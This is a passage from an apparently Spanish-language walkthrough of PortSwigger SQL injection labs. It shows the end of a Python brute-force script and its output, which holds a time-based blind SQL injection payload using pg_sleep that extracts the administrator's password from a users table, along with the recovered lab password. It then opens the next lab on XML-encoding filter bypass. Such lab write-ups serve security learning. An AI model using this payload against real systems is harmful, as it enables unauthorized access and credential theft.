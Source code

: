 ```bash
            if time_end - time_start > 1.5:
                password += character
                p2.status(password)
                break
if __name__ == '__main__':
    makeRequest()

```

```bash
❯ python3 SQLI_b.py
[▇] Fuerza Bruta: 1lFKg9knAZv6c4Rh'||(select case when substring(password,20,1)='6' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -
[.......\] Password: m2at1sufe07hhx5v5vv6
```

## SQL injection with filter bypass via XML encoding

<https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding>

Ahora nos dicen que hay una vulnerabilidad en el **stock check feature.** 

![](/assets/images/ports-writeup-sqli/web68.png)
